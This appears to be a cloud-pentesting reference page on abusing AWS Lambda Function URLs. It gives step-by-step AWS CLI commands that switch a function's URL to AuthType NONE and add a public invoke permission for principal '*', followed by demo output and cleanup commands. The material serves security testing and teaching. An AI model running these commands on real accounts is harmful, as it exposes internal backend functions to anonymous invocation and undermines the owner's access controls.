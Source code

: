 # AWS - Lambda Function URL Public Exposure (AuthType NONE + Public Invoke Policy)

Turn a private Lambda Function URL into a public unauthenticated endpoint by switching the Function URL AuthType to NONE and attaching a resource-based policy that grants lambda:InvokeFunctionUrl to everyone. This enables anonymous invocation of internal functions and can expose sensitive backend operations.

## Abusing it

- Pre-reqs: lambda:UpdateFunctionUrlConfig, lambda:CreateFunctionUrlConfig, lambda:AddPermission
- Region: us-east-1

### Steps
1) Ensure the function has a Function URL (defaults to AWS_IAM):
    ```
    aws lambda create-function-url-config --function-name $TARGET_FN --auth-type AWS_IAM || true
    ```

2) Switch the URL to public (AuthType NONE):
    ```
    aws lambda update-function-url-config --function-name $TARGET_FN --auth-type NONE
    ```

3) Add a resource-based policy statement to allow unauthenticated principals:
    ```
    aws lambda add-permission --function-name $TARGET_FN --statement-id ht-public-url --action lambda:InvokeFunctionUrl --principal "*" --function-url-auth-type NONE
    ```

4) Retrieve the URL and invoke without credentials:
    ```
    URL=$(aws lambda get-function-url-config --function-name $TARGET_FN --query FunctionUrl --output text)
    curl -sS "$URL"
    ```

### Impact
- The Lambda function becomes anonymously accessible over the internet.

### Example output (unauthenticated 200)

```
HTTP 200
https://e3d4wrnzem45bhdq2mfm3qgde40rjjfc.lambda-url.us-east-1.on.aws/
{"message": "HackTricks demo: public Function URL reached", "timestamp": 1759761979, "env_hint": "us-east-1", "event_keys": ["version", "routeKey", "rawPath", "rawQueryString", "headers", "requestContext", "isBase64Encoded"]}
```

### Cleanup

```
aws lambda remove-permission --function-name $TARGET_FN --statement-id ht-public-url || true
aws lambda update-function-url-config --function-name $TARGET_FN --auth-type AWS_IAM || true
```
